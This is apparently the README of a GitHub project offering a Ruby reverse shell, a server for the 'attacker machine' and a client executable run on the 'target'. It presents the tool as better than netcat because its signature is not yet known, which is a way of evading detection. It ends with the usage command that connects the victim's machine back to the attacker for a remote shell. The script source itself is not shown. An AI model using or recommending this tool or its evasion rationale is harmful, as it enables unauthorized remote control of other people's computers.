 # Ruby Reverse Shell



## Requirements:

**[!] Server that receives the reverse shell must have ruby installed, they victim doesn't**

**[!] You might need to recompile the exe, depending on your architecture.**

<br>
These are scripts/exes that can be used as a better reverse shell. It's a basic reverse shell. Same would be possible using netcat. The advantage is that this program has a unique signature while netcat's exe is known.

<br>
<br>

Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
